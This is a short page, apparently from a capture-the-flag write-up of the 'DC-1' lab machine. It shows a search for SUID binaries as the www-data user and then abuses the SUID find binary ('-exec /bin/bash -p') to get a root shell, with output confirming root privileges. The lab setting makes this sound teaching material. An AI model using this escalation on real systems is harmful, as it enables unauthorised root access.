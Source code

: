 ```yaml
---
layout: default
title: Find
parent: SUID
nav_order: 5
---
```


# Find

---

## Check SUID File Permissions

```bash
www-data@DC-1:/var/www/sites/default$ find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

The _/usr/bin/find_ binary should give us a root shell.

![gtfobins](../../../../assets/images/ctfs/proving_grounds/dc-1/gtfobins.png)

We want to run _/usr/bin/find_ on a file we have read permissions on, such as _flag4.txt_

```bash
www-data@DC-1:/home/flag4$ /usr/bin/find flag4.txt -exec /bin/bash -p \; -quit
bash-4.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

```
